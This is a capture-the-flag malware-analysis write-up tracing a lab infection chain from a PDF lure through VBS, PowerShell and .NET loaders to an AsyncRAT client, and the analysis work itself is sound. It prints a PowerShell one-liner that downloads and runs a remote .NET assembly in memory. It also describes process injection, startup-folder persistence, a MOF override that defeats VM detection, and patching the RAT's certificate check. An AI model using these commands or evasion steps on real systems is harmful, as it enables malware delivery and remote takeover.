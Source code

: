 # PDF

Opening the PDF, there is a link at the bottom.

![](screenshots/1.png)

`hxxp://192.168.100[.]100/microsoft/get-offer/`

# Payloads

There were multiple payloads hosted on the webserver. They are in a password protected zip (password: `infected`), as they behave like malware.

[payloads.zip](workdir/payloads.zip)

# Link

Opening the `get-offer` link downloads the [payloads.zip\Job_Offer.pdf.uue.bin](workdir/payloads.zip) file as `Job_Offer.pdf.uue`. It is actually a rar file, and contains `Job_Offer.pdf.vbs`.

# VBS

Using procmon, or replacing the `WWUP.Run` part reveals that it is running a powershell payload.

```cmd
%comspec% /c powershell.exe "[Byte[]] $rOWg = [system.Convert]::FromBase64string((New-Object Net.WebClient).DownloadString('http://192.168.100.100/msb/update.txt'));[system.Reflection.assembly]::Load($rOWg).GetType('fiber.Home').GetMethod('VAI').Invoke($null, [object[]] ('0-.<AQ?&x-*@0-.<AQ.a-+qq]x)D7%{*(11_=qw0]]53^iqB7%cq(^7X>.`!]{*(11_=qC.lM9`~CH-+qq]x)00cq(^7X>.`!].00cq(^7X>.`!].86cq(^7X>.`!].(^7X>.9cq(^7X>.`!]-+qq]x)-+qq]x)((:-+qq]x)02-p0-.<AQ0-.<AQ.z)*|?'))"
```

# Powershell

The powershell payload is downloading `hxxp://192.168.100[.]100/msb/update.txt` base64 encoded dotnet dll and loads it as assembly, then calling `fiber.Home.VAI` method to decode and run the next stage. 

# fiber.dll

The [dnSpyEx](https://github.com/dnSpyEx/dnSpy) can be used for decoding the script.

![](screenshots/2.png)

It is copying the active VBS file into the temp folder and downloading 2 more files.

The url parameter from the previous step is decoded by reversing it and doing a bunch of replaces: `hxxp://192.168.100[.]100/HCSC_1%7BN0w_%7D/a.txt`. This is the first part of the flag (`HCSC_1{N0w_}`). The file is reversed and base64 decoded afterwards.

The second url is hardcoded and just reversed: `hxxp://192.168.100[.]100/teams/schema.xml`. The file has some replacement and the it is base64 decoded as well.

The decoded `schema.xml` is another dotnet dll that, it is loaded, and the `fsociety.Tools.Ande` method is called with `C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe` and the decoded `a.txt`.

There is also a call to `Optical.startup` at the end.

![](screenshots/3.png)

This is dropping some persistency lnk file in the startup folder, with the 4th part of the flag in the description (`HCSC_4{3vRyThlNg!!1}`).

# Efsociety.dll

Following the function, it is calling `RunHandle` and then `HandleRun`.

It is essentially starting the passed `RegSvcs.exe` and injecting the passed block of memory into the process, taking it over. It was yet an another dotnet executable.

There is a variable at the start that contains the second part of the flag (`HCSC_2{y0U_t0TallY_4r3_}`).

![](screenshots/4.png)

# AsyncRAT

The executable is obfuscated. It can be ran standalone as well, the entry point is at `xWNkwSBQveQBO.vSmzaqyhqvbwx.Main`. The 3rd part of the flag is right there at the start (`HCSC_3{aDm1nnn_0F_}`).

![](screenshots/5.png)

# Flag
`HCSC{N0w_y0U_t0TallY_4r3_aDm1nnn_0F_3vRyThlNg!!1}`

# Bonus

Unfortunately the lnk part was not found at first, and there was significantly more time invested in the reversing of the obfuscated binary :)

The dnSpy can also debug and patch the application. 

## VM detection

There are some VM detection. The check for `Win32_ComputerSystem` can be patched out, but I usually prefer not tampering the binary, not to trigger some anti tampering part if there is an easy solution.

Creating a [.mof](workdir/test.mof) file and loading with [mofcomp](https://learn.microsoft.com/en-us/intune/configmgr/develop/osd/how-to-create-a-mof-file-for-a-configuration-manager-custom-action) can override this.

```
#PRAGMA AUTORECOVER
#pragma namespace ("\\\\.\\root\\CIMv2")

class Win32_ComputerSystem
{
    [key]
    string Manufacturer;
};

[DYNPROPS]
instance of Win32_ComputerSystem
{
    Manufacturer = "deathbaron.org";
};
```

![](screenshots/6.png)

## Configuration

The configuration is decoded in `xWNkwSBQveQBO.IRGpljjxetb.FaZxEMhgSUVh`. Stopping there can uncover the configuration.

![](screenshots/7.png)

## Source code

After uncovering some configuration strings (especially the certificate), I found the [AsyncRAT](https://github.com/NYAN-x-CAT/AsyncRAT-C-Sharp) project. Using the source code next to the obfuscated one greatly improved the reversing. 

## Server

Firing the server side of the AsyncRAT on the configured host `127.0.0.1` and ports `6606,7707,8808` and patching the certificate check on the binary (`pjbFLayXYYYYin.GzJsjMJgIiLI.CojCfpVsTbtt` from `RemoteCertificateValidationCallback`) works.

![](screenshots/8.png)

![](screenshots/9.png)

## No flag

Unfortunately there was no more flag hidden in this rabbit hole.